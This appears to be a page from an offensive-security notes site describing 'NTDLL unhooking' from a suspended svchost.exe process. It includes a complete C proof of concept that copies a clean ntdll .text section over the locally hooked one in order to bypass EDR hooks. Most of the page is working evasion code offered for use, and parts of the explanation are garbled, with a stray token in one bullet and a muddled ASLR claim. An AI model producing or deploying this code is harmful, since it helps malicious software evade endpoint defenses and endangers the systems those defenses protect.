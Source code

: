 # NTDLL Unhooking - From Suspended Process

## Introduction

An alternate approach to loading NTDLL is to read it from a suspended process. This works because EDR's require a running process to to install their hooks. Here's how it works:

* We create a process in a suspended state. (Contains clean ntdll.dll)
* Get local base address of ntdll.dll. (Imported dlls share the same base address between processes)
* Get remote address of suspended process
* Access remote ntdll by fetching the local ntdll address (imported DLL's have the same VA values between processes)PAGE\_EXECUTE\_READWRITE
* Allocate Heap and copy .text from remote to local using SizOfCode found in OptionalHeader
* VirtualProtect local ntdll with RW & Copy memory from heap to ntdll base address.

Do to ASLR, the virtual address of an imported library will be the same throughout all processes that import it. This is shared below:

<figure><img src="../../../.gitbook/assets/image (87).png" alt=""><figcaption></figcaption></figure>



## Example

The below screen shot is of svchost.exe (a suspended process we started). We are locating the NTDLL.dll based on the same address we fetched from the local PEB in unhooking.exe

<figure><img src="../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>



### Required Helper Functions

The following functions are required to create a suspended file, get the base address of the created file,  and to get the address of the local ntdll.dll

```c

typedef NTSTATUS (NTAPI* fnNtQueryInformationProcess) (
        HANDLE           ProcessHandle,
        PROCESSINFOCLASS ProcessInformationClass,
        PVOID            ProcessInformation,
        ULONG            ProcessInformationLength,
        PULONG           ReturnLength
        );

BOOL CreateSuspendedProcess(STARTUPINFO *pSi, PPROCESS_INFORMATION pPi) {
    pSi->cb = sizeof(*pSi);
    // Just a POC: Update this with the dynamic filepath fetch for "svchost.exe"
    if (CreateProcessW(L"C:\\Windows\\System32\\svchost.exe", NULL, NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, NULL, pSi, pPi) == 0) {
        wprintf(L"CreateProcessW Failed %d", GetLastError()) ;
        return FALSE;
    };
    return TRUE;
}

PVOID FetchRemoteBaseAddress(PPROCESS_INFORMATION pPi, PPROCESS_BASIC_INFORMATION pPbi) {

    fnNtQueryInformationProcess NtQueryInformationProcess = (fnNtQueryInformationProcess)GetProcAddress(GetModuleHandle(L"NTDLL.DLL"), "NtQueryInformationProcess");
    // get target image PEB address and pointer to image base
    DWORD dwReturnLength = 0;
    LPVOID imageBase;
    NtQueryInformationProcess(pPi->hProcess, ProcessBasicInformation, pPbi, sizeof(PROCESS_BASIC_INFORMATION), &dwReturnLength);
    DWORD_PTR pebOffset = (DWORD_PTR)pPbi->PebBaseAddress + 0x10;
    ReadProcessMemory(pPi->hProcess, (LPCVOID)pebOffset, &imageBase, sizeof(LPVOID), NULL);
    return imageBase;
}

PVOID FetchLocalNtdllAddress() {
    PPEB pPeb = (PPEB)__readgsqword(0x60);
    PLDR_DATA_TABLE_ENTRY pLdr = (PLDR_DATA_TABLE_ENTRY)((PBYTE)pPeb->Ldr->InMemoryOrderModuleList.Flink->Flink - 0x10);
    return pLdr->DllBase;
}

```



### Full Code

{% code fullWidth="true" %}
```c
#include <windows.h>
#include <winternl.h>
#include <wchar.h>
#include <stdio.h>

#define NTDLL L"NTDLL"

typedef NTSTATUS (NTAPI* fnNtQueryInformationProcess) (
        HANDLE           ProcessHandle,
        PROCESSINFOCLASS ProcessInformationClass,
        PVOID            ProcessInformation,
        ULONG            ProcessInformationLength,
        PULONG           ReturnLength
        );

BOOL CreateSuspendedProcess(STARTUPINFO *pSi, PPROCESS_INFORMATION pPi) {
    pSi->cb = sizeof(*pSi);
    // Just a POC: Update this with the dynamic filepath fetch for "svchost.exe"
    if (CreateProcessW(L"C:\\Windows\\System32\\svchost.exe", NULL, NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, NULL, pSi, pPi) == 0) {
        wprintf(L"CreateProcessW Failed %d", GetLastError()) ;
        return FALSE;
    };
    return TRUE;
}

PVOID FetchRemoteBaseAddress(PPROCESS_INFORMATION pPi, PPROCESS_BASIC_INFORMATION pPbi) {

    fnNtQueryInformationProcess NtQueryInformationProcess = (fnNtQueryInformationProcess)GetProcAddress(GetModuleHandle(L"NTDLL.DLL"), "NtQueryInformationProcess");
    // get target image PEB address and pointer to image base
    DWORD dwReturnLength = 0;
    LPVOID imageBase;
    NtQueryInformationProcess(pPi->hProcess, ProcessBasicInformation, pPbi, sizeof(PROCESS_BASIC_INFORMATION), &dwReturnLength);
    DWORD_PTR pebOffset = (DWORD_PTR)pPbi->PebBaseAddress + 0x10;
    ReadProcessMemory(pPi->hProcess, (LPCVOID)pebOffset, &imageBase, sizeof(LPVOID), NULL);
    return imageBase;
}

PVOID FetchLocalNtdllAddress() {
    PPEB pPeb = (PPEB)__readgsqword(0x60);
    PLDR_DATA_TABLE_ENTRY pLdr = (PLDR_DATA_TABLE_ENTRY)((PBYTE)pPeb->Ldr->InMemoryOrderModuleList.Flink->Flink - 0x10);
    return pLdr->DllBase;
}


int wmain() {

    // Create process
    STARTUPINFO si = {0};
    PROCESS_INFORMATION pi = {0};
    PROCESS_BASIC_INFORMATION pbi = {0};

    // Create Suspended Process
    if (!CreateSuspendedProcess(&si, &pi)) {
        return -1;
    }

    // Get Local NTDLL Base Address
    PVOID pNtdllBaseAddress = FetchLocalNtdllAddress();

    wprintf(L"[+] NTDLL Base Address %p\n", pNtdllBaseAddress);
    wprintf(L"[+] Suspended PIDS: %d\n", pi.dwProcessId);


    // Parse Local PE Headers
    PIMAGE_DOS_HEADER pDosHeader = (PIMAGE_DOS_HEADER)pNtdllBaseAddress;
    if (pDosHeader->e_magic != IMAGE_DOS_SIGNATURE) {
        wprintf(L"[!] DOS Signature Failed\n");
        return -1;
    }

    PIMAGE_NT_HEADERS pNtHeaders = (PIMAGE_NT_HEADERS)(pNtdllBaseAddress + pDosHeader->e_lfanew);

    if (pNtHeaders->Signature != IMAGE_NT_SIGNATURE) {
        wprintf(L"[!] NT Signature Failed\n ");
        return -1;
    }

    PIMAGE_OPTIONAL_HEADER pImgOptionalHeader = (PIMAGE_OPTIONAL_HEADER)&pNtHeaders->OptionalHeader;

    // Get Size of .Text Section
    DWORD dwNtdllTextSize = pImgOptionalHeader->SizeOfCode;
    // Get Base address of .Text Section
    PVOID pAddressOfText = pNtdllBaseAddress + pImgOptionalHeader->BaseOfCode;


    wprintf(L"[+] Size of NTDLL .text section %d\n", dwNtdllTextSize);

    // Allocate Heap
    PVOID lpBuffer = HeapAlloc(GetProcessHeap(), 0, dwNtdllTextSize);

    // Copy Remote .Text Section to Allocated Buffer
    size_t ulBytesWritten = 0;
    ReadProcessMemory(pi.hProcess, pAddressOfText, lpBuffer, dwNtdllTextSize,  &ulBytesWritten);

    wprintf(L"[+] Wrote %d bytes to: %p\n", ulBytesWritten, lpBuffer);

    // Change permissions of local NTDLL
    DWORD dwOldPermissions;
    if (!VirtualProtect(pAddressOfText, dwNtdllTextSize, PAGE_EXECUTE_READWRITE, &dwOldPermissions)) {
        wprintf(L"[!] VirtualProtect[1] Failed %d", GetLastError() );
        return -1;
    }

    // This is just a POC, to avoid evasion properly needs more.
    // Example: Breaking apart copy into seperate spread out functions

    memcpy(pAddressOfText, lpBuffer, dwNtdllTextSize);

    if (!VirtualProtect(pAddressOfText, dwNtdllTextSize, dwOldPermissions, &dwOldPermissions)) {
        wprintf(L"[!] VirtualProtect[2] Failed %d", GetLastError() );
        return -1;
    }

    getchar();
    return 0;
}

```
{% endcode %}
